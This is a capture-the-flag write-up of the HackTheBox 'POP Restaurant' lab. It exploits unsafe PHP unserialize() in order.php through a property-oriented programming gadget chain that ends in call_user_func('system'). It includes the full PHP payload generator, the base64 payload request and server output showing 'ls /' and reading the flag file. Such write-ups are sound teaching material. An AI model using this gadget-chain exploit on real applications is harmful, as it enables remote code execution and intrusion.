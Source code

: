 # POP Restaurant
- Spent a week to create this food ordering system. Hope that it will not have any critical vulnerability in my application.

- After creating an account I am presented with this page. It allows me to order food via a POST request to `/order.php`

![](../../../assets/landing_POPRestaurant.png)



``` http
POST /order.php HTTP/1.1
Host: 94.237.48.12:44755
Content-Length: 89
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://94.237.48.12:44755
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.48.12:44755/index.php<?php

data=Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7TjtzOjY6ImNoZWVzZSI7TjtzOjQ6InNpemUiO047fQ%3D%3D
```

- When I Base64 decode the data in the request I get:
    `O:5:"Pizza":3:{s:5:"price";N;s:6:"cheese";N;s:4:"size";N;}`
- This is a serialized PHP object, and I can see it being directly deserialized in the source code of `order.php`

```php
[...]
isAuthenticated();
$username = $_SESSION['username'];
$id = $_SESSION['id'];
$db = new Database();
$order = unserialize(base64_decode($_POST['data']));
$foodName = get_class($order);
[...]
```
- I start looking for classes with **Magic Methods** (https://www.php.net/manual/en/language.oop5.magic.php) that will allow me to exploit this vulnerability. And I find these ones:

```php
<?php
class IceCream{
	public $flavors;
	
	public $topping;
	public function __invoke(){
		foreach ($this->flavors as $flavor) {
			echo $flavor;
		}
	}
}
```

``` php
<?php
class Pizza{
	public $price;
	public $cheese;
	public $size;
	public function __destruct(){
		echo $this->size->what;
	}
}
```

```php
<?php
	class Spaghetti {
	public $sauce;
	public $noodles;
	public $portion;
	public function __get($tomato)
	{
		($this->sauce)();
	}
}
```
- The **POP chain** that immediately jumps to my attention is:
    -  Pizza's **__destruct()** calls Spaghetti's **__get()** by trying to access an attribute that doesn't exist in the Spaghetti class.
    - Spaghetti's __gets() calls IceCreams's **__invoke()** by calling it as if it were a function.
- And then I didn't know what to do to exploit this chain, but after searching some more I found this class:

``` php
<?php
namespace Helpers{

	use ArrayIterator;
		class ArrayHelpers extends ArrayIterator{
		public $callback;
		
		public function current()
		{
			$value = parent::current();
			echo $value;
			$debug = call_user_func($this->callback, $value);
			return $value;
		}
	}
}
```
- It's a custom implementation of the **ArrayIterator** class, that after echoing the current element of the array, calls the function in the *$callback* attribute with the current value as the argument.
- The **current()** function (https://www.geeksforgeeks.org/php/php-arrayiterator-current-function/) is called when a **foreach** clause is present, which is the case in IceCream's __invoke(), that iterates through the *$flavors* array.
- If I set the IceCream's *\$flavors* to a **ArrayHelpers** that has a *$callback* of 'system', and is iterating through an array of commands, I have RCE on the server. 
- The exploit (it was a pain because of the namespaces ;():

```php
namespace Helpers {
    use ArrayIterator;

    class ArrayHelpers extends ArrayIterator
    {
        public $callback;
    }
}

namespace {
    class IceCream
    {
        public function __construct(){
            $ah = new \Helpers\ArrayHelpers(['ls /']);
            $ah->callback = 'system';
            $this->flavors = $ah;
            $this->topping = 'whatever';
        }
    }

    class Spaghetti
    {
        public function __construct(){
            $this->sauce  = new IceCream();
            $this->noodles = True;
            $this->portion = "big";
        }
    }

    class Pizza
    {
        public function __construct(){
            $this->price  = 12;
            $this->cheese = True;
            $this->size   = new Spaghetti();
        }
    }

    $p = new Pizza();
    echo base64_encode(serialize($p)) . "\n";
}
```
- When I send the serialized and encoded object chain, I get RCE!

``` http
POST /order.php HTTP/1.1
Host: 94.237.48.12:44755
Content-Length: 413
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://94.237.48.12:44755
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/141.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://94.237.48.12:44755/index.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=561aa61236020ea4642c3e56ef1450f7
Connection: keep-alive

data=Tzo1OiJQaXp6YSI6Mzp7czo1OiJwcmljZSI7aToxMjtzOjY6ImNoZWVzZSI7YjoxO3M6NDoic2l6ZSI7Tzo5OiJTcGFnaGV0dGkiOjM6e3M6NToic2F1Y2UiO086ODoiSWNlQ3JlYW0iOjI6e3M6NzoiZmxhdm9ycyI7TzoyMDoiSGVscGVyc1xBcnJheUhlbHBlcnMiOjQ6e2k6MDtpOjA7aToxO2E6MTp7aTowO3M6NDoibHMgLyI7fWk6MjthOjE6e3M6ODoiY2FsbGJhY2siO3M6Njoic3lzdGVtIjt9aTozO047fXM6NzoidG9wcGluZyI7czo4OiJ3aGF0ZXZlciI7fXM6Nzoibm9vZGxlcyI7YjoxO3M6NzoicG9ydGlvbiI7czozOiJiaWciO319
```

``` http
HTTP/1.1 302 Found
Date: Thu, 16 Oct 2025 15:10:58 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 111

bin
boot
dev
etc
home
lib
lib64
media
mnt
opt
pBhfMBQlu9uT_flag.txt
proc
root
run
sbin
srv
sys
tmp
usr
var
ls /
```

- After that, I just change the command to cat the flag


``` http
HTTP/1.1 302 Found
Date: Thu, 16 Oct 2025 15:18:55 GMT
Server: Apache/2.4.54 (Debian)
X-Powered-By: PHP/7.4.33
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: index.php
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Type: text/html; charset=UTF-8
Content-Length: 55

HTB{<REDACTED>}cat /pBhfMBQlu9uT_flag.txt
```

writeup by varanda - 16/10/2025
